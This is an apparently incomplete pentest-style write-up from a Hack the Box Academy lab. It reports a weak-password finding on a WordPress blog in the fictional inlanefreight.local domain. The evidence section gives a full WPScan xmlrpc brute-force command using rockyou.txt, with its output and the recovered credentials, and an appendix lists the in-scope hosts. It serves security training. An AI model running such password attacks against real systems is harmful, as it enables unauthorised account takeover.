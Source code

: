 ```yaml
---
title: "Hack the Box"
subtitle: "Module: Attacking Common Applications"
author: "errbufferoverfl"
date: 2023-10-21T19:23:04+11:00
categories:
- Learning
- Hack the Box
- Hack the Box Academy
- Offensive
---
```


## Attack Chain 1: Compromising Wordpress

### Detailed Summary

- Host enumeration and discovery
- Wordpress discovery and enumeration

### Technical Reproduction Steps

### Findings

#### Weak Password Requirements

*The affected host does not require users to have strong passwords, making it easier for threat actors to compromise user accounts.*

**CWE:** CWE-521
**CVSS 3.1 Score:** 9.4 Critical (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:L)
**Root Cause Analysis:** 
**Security Impact:** When successfully exploited, weak password requirements can result in a threat actor gaining long-term unauthorised access to the users account. Depending on the permissions associated with the compromised account, impact can vary.
**Affected Hosts:** blog.inlanefreight.local
**Remediation:**

#### Evidence

The following figure shows WPScan and the `rockyou.txt` password list against `blog.inlanefreight.local` to brute-force the password for the user account `doug`. `xmlrpc` is used as it is faster than HTTP-based password brute-forcing.

```
wpscan --url http://blog.inlanefreight.local --password-attack xmlrpc -t 20 -U doug -P ~/Sauce/SecLists/Passwords/rockyou.txt 
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://blog.inlanefreight.local/ [10.129.107.187]
[+] Started: Fri Oct 27 08:51:01 2023

...

[!] Valid Combinations Found:
 | Username: doug, Password: jessica1

...

[+] Finished: Fri Oct 27 08:51:40 2023
[+] Requests Done: 799
[+] Cached Requests: 41
[+] Data Sent: 393.439 KB
[+] Data Received: 448.799 KB
[+] Memory used: 284.395 MB
[+] Elapsed time: 00:00:38
```

## `blog.inlanefreight.local`

## Appendix A. Scope

-   app.inlanefreight.local
-   dev.inlanefreight.local
-   drupal-dev.inlanefreight.local
-   drupal-qa.inlanefreight.local
-   drupal-acc.inlanefreight.local
-   drupal.inlanefreight.local
-   blog-dev.inlanefreight.local
-   blog.inlanefreight.local
-   app-dev.inlanefreight.local
-   jenkins-dev.inlanefreight.local
-   jenkins.inlanefreight.local
-   web01.inlanefreight.local
-   gitlab-dev.inlanefreight.local
-   gitlab.inlanefreight.local
-   support-dev.inlanefreight.local
-   support.inlanefreight.local
-   inlanefreight.local
-   10.129.201.50

